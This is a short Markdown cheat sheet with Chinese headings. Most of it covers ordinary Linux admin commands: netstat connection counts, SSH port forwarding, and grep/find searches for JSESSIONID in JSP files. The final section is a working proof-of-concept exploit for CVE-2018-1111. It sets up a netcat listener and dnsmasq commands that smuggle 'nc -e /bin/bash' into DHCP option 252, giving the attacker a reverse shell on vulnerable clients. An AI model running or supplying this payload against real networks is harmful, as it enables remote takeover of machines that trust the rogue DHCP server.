 ## 查看tcp连接状态

```
netstat -nat |awk '{print $6}'|sort|uniq -c|sort -rn
```

## 查找80端口请求数最高的前20个IP

```
netstat -anlp|grep 80|grep tcp|awk '{print $5}'|awk -F: '{print $1}'|sort|uniq -c|sort -nr|head -n20
```

## ssh实现端口转发
将发往本机（192.168.1.15）的9200端口访问转发到192.168.1.19的9200端口,命令执行完后，访问192.168.1.15:9200端口则真实是访问192.168.1.19:9200端口
```
ssh -p 22 -C -f -N -g -L 9200:192.168.1.19:9200 ihavecar@192.168.1.19
```

## 查找jsp中出现的关键字

```
grep -r -i --include \*.jsp --include \*.js 'JSESSIONID' .
grep: command
-r: recursively
-i: ignore-case
--include: all *.txt: text files (escape with \ just in case you have a directory with asterisks in the filenames)
'searchterm': What to search
./: Start at current directory.

find . -name '*.js' -o -name '*.jsp' -exec grep "JSESSIONID" {} \; -print
find . -name "*.js" | xargs grep -i "JSESSIONID"
```

# CVE-2018-1111 tweetable DHCP欺骗远程反弹shell PoC :) 

```
hacker server:
nc -l -p 1337 -v

in kali,start dhcp server:
killall dnsmasq
dnsmasq --interface=eth0 --bind-interfaces \
--except-interface=lo --dhcp-range=10.1.1.1,10.1.1.10,1h \
--conf-file=/dev/null --dhcp-option=6,100.100.1.1 \
--dhcp-option=3,100.100.1.1 \
--dhcp-option="252,x'&nc -e /bin/bash 10.1.1.1 1337 #" \
--log-queries --log-facility=/var/log/dnsmasq-server.log
or:

dnsmasq --interface=eth0 --bind-interfaces \
--except-interface=lo --dhcp-range=10.1.1.1,10.1.1.10,1h \
--conf-file=/dev/null --dhcp-option=6,100.100.1.1 \
--dhcp-option=3,100.100.1.1 \
--dhcp-option="252,yarrak'&nc -e /bin/bash 10.1.1.1 1337 #" \
--log-queries --log-facility=/var/log/dnsmasq-server.log
```
